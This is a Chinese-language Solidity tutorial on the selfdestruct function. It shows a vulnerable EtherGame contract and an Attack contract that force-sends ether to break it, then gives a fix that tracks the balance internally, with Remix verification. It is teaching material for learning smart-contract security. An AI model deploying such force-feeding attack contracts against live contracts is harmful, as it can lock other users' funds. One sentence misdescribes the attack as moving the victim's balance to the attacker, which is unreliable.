


# 68.Self Destruct
Self Destruct是一种Solidity语言的函数，它可以在智能合约中销毁当前合约。
它的作用是将当前合约的余额（以以太为单位）发送到指定的地址，并且将合约从区块链中删除，以节省存储空间并且不再消耗gas。

在调用Self Destruct函数之前，需要确保当前合约中没有任何未处理的交易和未使用的存储空间。
因为一旦调用Self Destruct函数，合约将被永久删除，无法再次访问。
因此，需要仔细考虑什么时候使用Self Destruct函数。
一般情况下，Self Destruct函数适用于合约已经完成了它的使命，或者合约已经过期或被废弃的情况下。
## 漏洞
恶意攻击合约可以使用selfdestruct来强制向任何合约发送以太。
攻击者可以通过向智能合约发送带有恶意代码的交易来利用Self Destruct漏洞。恶意代码可以包含一个Self Destruct调用，将合约的余额转移到攻击者的地址，然后删除合约。

## 例子：EtherGame
这个游戏的目标是成为第七个存入1个以太的玩家。
玩家每次只能存入1个以太。获胜者将能够提取所有以太。

```solidity
contract EtherGame {
    uint public targetAmount = 7 ether;
    address public winner;
    
    //deposit()函数接受1个以太的付款，并将其存入合约地址。
    //如果存款后合约地址的余额等于目标金额（7个以太），则将当前发送方的地址设置为赢家地址。
    function deposit() public payable {
        require(msg.value == 1 ether, "You can only send 1 Ether");

        uint balance = address(this).balance;
        require(balance <= targetAmount, "Game is over");

        if (balance == targetAmount) {
            winner = msg.sender;
        }
    }

    //claimReward()：该函数用于获胜者领取奖励，只有获胜者才能调用该函数。该函数会将合约余额发送到获胜者的地址上。
    function claimReward() public {
        require(msg.sender == winner, "Not winner");

        (bool sent, ) = msg.sender.call{value: address(this).balance}("");
        require(sent, "Failed to send Ether");
    }
}
```
## 攻击合约Attack

1. 部署EtherGame
2. 玩家（例如Alice和Bob）决定玩游戏，每人存入1个以太。
3. 部署攻击程序，并指定EtherGame的地址。
4. 调用Attack.attack函数，发送5个以太。这将破坏游戏，没有人能成为赢家。

发生了什么？
攻击导致EtherGame的平衡被强制设置为7个以太。
现在没有人能够存款，也无法设定获胜者。
```solidity
contract Attack {
    EtherGame etherGame;

    constructor(EtherGame _etherGame) {
        etherGame = EtherGame(_etherGame);
    }

    function attack() public payable {
        // 你可以通过发送以太来轻松破坏游戏，以此来达到作弊的目的。
        // 游戏余额 >= 7 以太

        // 转换地址为可支付地址
        address payable addr = payable(address(etherGame));
        selfdestruct(addr);
    }
}
```
### 不要依赖address(this).balance作为预防措施。
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

contract EtherGame {
    uint public targetAmount = 3 ether;
    uint public balance;
    address public winner;

    function deposit() public payable {
        require(msg.value == 1 ether, "You can only send 1 Ether");

        balance += msg.value;
        require(balance <= targetAmount, "Game is over");

        if (balance == targetAmount) {
            winner = msg.sender;
        }
    }

    function claimReward() public {
        require(msg.sender == winner, "Not winner");

        (bool sent, ) = msg.sender.call{value: balance}("");
        require(sent, "Failed to send Ether");
    }
}
```
## remix验证
部署合约EtherGame，模拟两个不同玩家各转入1ETH，余额显示为2ETH。

部署合约Attack，输入合约EtherGame地址，调用attack（）函数并转入5ETH，结果发现虽然达到7个ETH，但并不能设置胜利者地址。

